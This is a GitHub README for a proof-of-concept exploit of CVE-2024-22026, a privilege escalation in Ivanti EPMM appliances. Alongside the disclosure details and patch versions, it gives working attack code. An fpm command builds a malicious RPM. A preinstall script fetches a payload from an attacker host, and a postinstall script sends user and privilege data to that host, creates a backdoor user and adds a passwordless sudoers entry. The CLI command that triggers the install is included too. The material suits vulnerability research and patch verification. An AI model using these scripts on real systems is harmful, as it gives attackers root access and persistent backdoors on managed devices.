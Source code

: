 # CVE-2024-22026
**Exploit POC for CVE-2024-22026 affecting Ivanti EPMM "MobileIron Core"**
![image](https://github.com/securekomodo/CVE-2024-22026/assets/4809643/c7674e92-1f62-4745-84a0-49502f09cdea)

CVE-2024-22026 is a local privilege escalation vulnerability in Ivanti EPMM (formerly MobileIron) server versions prior to 12.1.0.0, 12.0.0.0, and 11.12.0.1. This vulnerability allows a local attacker to gain root access to the system by exploiting the software update process with a malicious RPM package from a remote URL.

Read the full blog post for detailed technical information: [Exploiting CVE-2024-22026: Rooting Ivanti EPMM (MobileIron Core)](https://www.redlinecybersecurity.com/blog/exploiting-cve-2024-22026-rooting-ivanti-epmm-mobileiron-core)

## Vulnerability Details
- **CVE ID**: CVE-2024-22026
- **Severity**: Undetermined
- **Attack Vector**: Local
- **Impact**: Allows local attacker to gain root access
- **Affected Versions**: Ivanti EPMM (formerly MobileIron) server versions prior to 12.1.0.0, 12.0.0.0, and 11.12.0.1
- **Patch Availability**: Patched in versions 12.1.0.0, 12.0.0.0, and 11.12.0.1

## Discovery
During our research, we discovered that the appliance uses the following command to fetch and install RPM packages as a low privilege user:
```sh
install rpm url <remote url>
```
This above command is only a CLI wrapper for the following to occur which runs as root
```sh
/bin/rpm -Uvh *.rpm
```
This underlying rpm command does not enforce any signature verification or URL filtering, meaning any RPM package can be installed. This allows an attacker to forge and deliver a malicious RPM package that can compromise the appliance.

## Exploitation POC

### Creating the Malicious RPM
The following command is used to create a malicious RPM package:

```sh
fpm -s dir -t rpm -n ivanti-privesc -v 13.37 -a i386 --description "Ivanti POC" --maintainer "exploit-poc" --before-install preinstall.sh --after-install postinstall.sh -C .
```

### Preinstall Script (`preinstall.sh`)
```sh
#!/bin/sh
curl -O http://<attacker_IP>/poc
exit 0
```

### Postinstall Script (`postinstall.sh`)
```sh
#!/bin/sh
set -e  # Enable strict error checking

# Report back current user and privilege level
CURRENT_USER=$(whoami | base64)
PRIV_LEVEL=$(id -u | base64)

curl http://<attacker_IP>/poc?user=$CURRENT_USER
curl http://<attacker_IP>/poc?priv=$PRIV_LEVEL

# Create a new root user
if ! useradd -s /bin/sh -m exploit-poc; then
  echo "Failed to add user 'exploit-poc'" >&2
  exit 1
fi

echo "exploit-poc:<redacted_password>" | chpasswd

# Grant root privileges
if ! echo "exploit-poc ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers; then
  echo "Failed to modify sudoers file" >&2
  exit 1
fi

exit 0
```

### Running the CLI Command to Fetch the RPM
To exploit the vulnerability, the attacker would run the following command in the CLI to fetch and install the malicious RPM:

```sh
install rpm url http://<attacker_IP>/ivanti-privesc-13.37-1.i386.rpm
```

## Mitigation
Ivanti has released patches to address CVE-2024-22026 in the following versions:
- 12.1.0.0
- 12.0.0.0
- 11.12.0.1

## Disclaimer

This repository and its content are intended for educational and research purposes only. Use of the information contained herein is at your own risk.
